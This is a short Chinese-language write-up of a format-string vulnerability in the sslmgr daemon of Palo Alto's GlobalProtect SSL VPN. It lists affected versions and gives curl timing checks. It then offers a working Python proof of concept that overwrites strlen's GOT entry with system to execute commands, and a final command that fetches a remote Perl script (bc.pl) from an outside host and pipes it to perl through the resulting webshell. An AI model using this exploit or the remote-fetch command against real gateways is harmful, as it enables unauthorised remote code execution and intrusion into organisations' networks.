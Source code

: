 Palo Alto ssl-vpn服务器漏洞
Palo Alto称他们的SSL VPN产品为GlobalProtect。
漏洞类型：二进制格式化字符串漏洞
触发环境：守护程序sslmgr搜索字符串scep-profile-name并将其值作为snprintf格式传递,以填充缓冲区。这导致格式字符串被攻击。
（其中sslmgr是处理服务器和客户端之间的ssl握手的ssl网关。该守护进程由nginx反向代理代理，可以通过路径/sslmgr进行访问。）
影响版本：7.1.x <7.1.19、8.0.x <8.0.12、8.1.x <8.1.3
如何验证漏洞是否存在：观察大量重复次数的响应时间来验证这个漏洞！命令：
time curl -s -d 'scep-profile-name=%9999999c' + 对应服务网址
time curl -s -d 'scep-profile-name=%99999999c' + 对应服务网址
time curl -s -d 'scep-profile-name=%999999999c' + 对应服务网址
如果漏洞存在，响应时间随着%c的数目而增加。
漏洞利用：首先可以通过Last-Modified标头进行区分，
8.x版本的/global protect/portal/css/login.css
7.x版本的/images/logo_pan_158.gif
8.0版本命令：curl -s -I https://对应域名/global-protect/portal/css/login.css | grep Last-Modified

漏洞利用脚本poc：
1. 我们简单地将全局偏移表（GOT）上strlen的指针修改为系统的程序链接表（plt）。以下是其POC：
#!/usr/bin/python

import requests
from pwn import *

url = "https://sslvpn/sslmgr"
cmd = "echo pwned > /var/appweb/sslvpndocs/hacked.txt"

strlen_GOT = 0x667788 # change me
system_plt = 0x445566 # change me

fmt =  '%70$n'
fmt += '%' + str((system_plt>>16)&0xff) + 'c'
fmt += '%32$hn'
fmt += '%' + str((system_plt&0xffff)-((system_plt>>16)&0xff)) + 'c'
fmt += '%24$hn'
for i in range(40,60):
    fmt += '%'+str(i)+'$p'

data = "scep-profile-name="
data += p32(strlen_GOT)[:-1]
data += "&appauthcookie="
data += p32(strlen_GOT+2)[:-1]
data += "&host-id="
data += p32(strlen_GOT+4)[:-1]
data += "&user-email="
data += fmt
data += "&appauthcookie="
data += cmd
r = requests.post(url, data=data)

2. 修改完成后，sslmgr将成为我们的Webshell，我们可以通过以下方式执行命令：

curl -d 'scep-profile-name=curl orange.tw/bc.pl | perl -' https://global-protect/sslmgr



